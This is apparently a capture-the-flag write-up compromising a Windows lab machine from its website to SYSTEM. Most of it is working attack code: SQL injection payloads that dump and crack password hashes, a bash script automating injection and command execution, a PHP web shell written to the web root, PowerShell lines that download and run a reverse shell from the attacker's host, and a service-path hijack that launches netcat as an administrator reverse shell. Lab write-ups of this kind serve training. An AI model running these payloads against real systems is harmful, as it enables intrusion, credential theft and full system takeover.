 **Skills Required**
Basic knowledge of Windows
**Skills Learned**
Basic SQL Injection
Hash Cracking
File System Enumeration
Service Enumeration
Windows Defender Evasion

The intrusion is through the website
Checking the website I found an Admin page , but the access is denied, I need to go through a proxy to access in this page(header missing).

We are going to brute force the headers to find the missing header.

``` bash
# Use seclist -> Misselanium -> web -> http-request-headers -> non standard fields.txt

❯ wfuzz -w /usr/share/seclists/Miscellaneous/web/http-request-headers/http-request-headers-common-non-standard-fields.txt -H "FUZZ: 192.168.4.28" http://10.10.10.167/admin.php
"X-Forwarded-For"

```

Wfuzz found the correct header "X-Forwarded-For: 192.168.4.28" we can add this header using burpsuite or a browser extension

After using the correct header, we found a "find products" application, trying the common payload " ' " we got sql error, this seems to be vulnerable to sql injection.

``` bash
10.10.10.167/admin.php
' order by 100-- -
' order by 6-- - -> are 6 columns
	' union select 1,2,3,schema_name,5,6 from information_schema.schemata-- - #-> mysql
' union select 1,2,3,table_name,5,6 from information_schema.tables where table_schema="mysql"-- - #-> user
' union select 1,2,3,column_name,5,6 from information_schema.columns where table_schema="mysql" and table_name="user"-- - #-> User:Password
' union select 1,2,3,4,group_concat(User,":",Password),6 from mysql.user-- -
root:0A4A5CAD344718DC418035A1F4D292BA603134D8
root:0A4A5CAD344718DC418035A1F4D292BA603134D8
root:0A4A5CAD344718DC418035A1F4D292BA603134D8
root:0A4A5CAD344718DC418035A1F4D292BA603134D8
manager:CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA --> l3tm3!n
hector:0E178792E8FC304A2E3133D535D38CAF1DA3CD9D --> l33th4x0rhector

```

Sqlinjection bash script (learning bash/ In process)
``` bash
#!/bin/bash
#
trap ctrl_c INT

color_prompt="\033[1;93m" # Amarillo
color_output="\033[1;32m" # Verde
color_reset="\033[0m"     # Restablecer color

function ctrl_c() {
    echo -e "\n\n\033[0;31m[!] Exiting...\033[0m"
    exit 1
}
main_url="http://10.10.10.167/search_products.php"

  echo -ne "\n${color_prompt}[*] Enter 'query' to run a SQL query, 'command' to run a system command, or 'exit' to quit:\n${color_reset}"
  echo -ne "\n${color_prompt}[*] After you retrieve the data from the database, try injecting .php files to execute commands:\n${color_reset}"

  echo -ne "\n${color_prompt}[>] Ex:' union select 1,2,3,\"<?php system($_REQUEST['cmd']); ?>\",5,6 into outfile 'C:\\\\\\\\\\\\\\\inetpub\\\\\\\\\\\\\\\wwwroot\\\\\\\\\\\\\\\cmd.php'-- - \n\n${color_reset}"

function Execute_Query {
  sql_query="$1"
  
  output=$(curl -s -X POST "$main_url" -H "X-Forwarded-For: 192.168.4.28" -d "productName=$sql_query" | awk '/<tbody>/,/<\/tbody>/' | html2text | sed 's/1| 2| 3| //' | sed 's/| 5| 6//' | sed 's/|  |  |  |//')

  echo -e "${color_prompt}$output${color_reset}"
}
function Execute_Command {
  main_url_command="http://10.10.10.167/pwned.php"

  command="$1"
  echo $command 
  output=$(curl -s -X GET -G "$main_url_command" --data-urlencode "cmd=$command" | sed 's/1	2	3	//' | sed 's/	5	6//')

  echo -e "${color_prompt}$output${color_reset}"
}

while true; do 
  read -p "╭─ ╱  ~/10.10.10.167_Control ╱ ✔ 
╰─❯ " choice

  if [ "$choice" == "query" ]; then
    read -p "Enter SQL query: " sql_query
    Execute_Query "$sql_query"
  elif [ "$choice" == "command" ]; then
    read -p "Enter command: " command
    Execute_Command "$command"
  elif [ "$choice" == "exit" ]; then
    break 
  else
    echo -e "\n${color_prompt}Invalid choice. Enter 'query' to run a SQL query, 'command' to run a system command, or 'exit' to quit${color_reset}\n"
  fi
done


```


We have credentials, but we don't have a place to use them.
So, We'll try to inject commands in the sql injection queries to try a reverse shell.
``` bash
# The path of the website in the server --> C:\inetpub\wwwroot\prueba.txt
╭─ ╱  ~/10.10.10.167_Control ╱ ✔ 
╰─❯ ' union select 1,2,3,"<?php system($_REQUEST['cmd']); ?>",5,6 into outfile 'C:\\\\inetpub\\\\wwwroot\\\\pwned.php'-- - 
```

Now we have remote command execution, now we use Conptyshell to stablish the reverse shell https://github.com/antonioCoco/ConPtyShell
``` bash
sudo python -m http.server 80
nc -nlvp 1234
	Press -> ctrl z -> stty raw -echo; fg -> enter

# On the website
http://10.10.10.167/cmd.php?cmd=powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Invoke-ConPtyShell.ps1')
#in the script
powershell%20IEX(New-Object%20Net.WebClient).downloadString('http://10.10.14.5/Invoke-ConPtyShell.ps1')
```

Now we gain access as the user "nt authority\iusr", It's time to escalate privileges
We already have credentials, so we can inject command as the user that we have the credentials with powershell
``` powershell
$user = 'fidelity\hector'
$password = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PScredential $user,$password
Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock { whoami }
```

Now we can do the same than before to gain access as user "hector" using Invoke-ConPtyShell.ps1

``` powershell
Invoke-Command -ComputerName localhost -Cred $cred -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.5/Invoke-ConPtyShell.ps1') }
```

Now as the user Hector, we use the winpeas tool to enumerate the system

Winpeas report that the user hector have full control in all the system services, so we can manipulate the ImagePath that it execute when the service start , for example the service execute netcat to stablish a reverse shell as the administrator user.

``` powershell
PS C:\users\hector\Desktop> cd C:\Windows\System32\spool\drivers\color 
PS C:\Windows\System32\spool\drivers\color> iwr -uri http://10.10.14.5/nc64.exe -OutFile nc64.exe

PS C:\users\hector\Desktop> reg query HKLM\System\CurrentControlSet\Services\seclogon

    **ImagePath    REG_EXPAND_SZ    %windir%\system32\svchost.exe -k netsvcs -p**

PS C:\users\hector\Desktop> reg add HKLM\System\CurrentControlSet\Services\seclogon /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.5 1234" /f

PS C:\Windows\System32\spool\drivers\color> reg query HKLM\System\CurrentControlSet\Services\seclogon 

    **ImagePath    REG_EXPAND_SZ    C:\Windows\System32\spool\drivers\color\nc64.exe -e cmd 10.10.14.5 1234**
    
#On my machine
❯ rlwrap nc -nlvp 1234

PS C:\Windows\System32\spool\drivers\color> sc start seclogon


```

root flag > d7d941d390a74f7f4b60047436c13946
Uer flag ce859010fbfc5ce75341af2db62ad1d8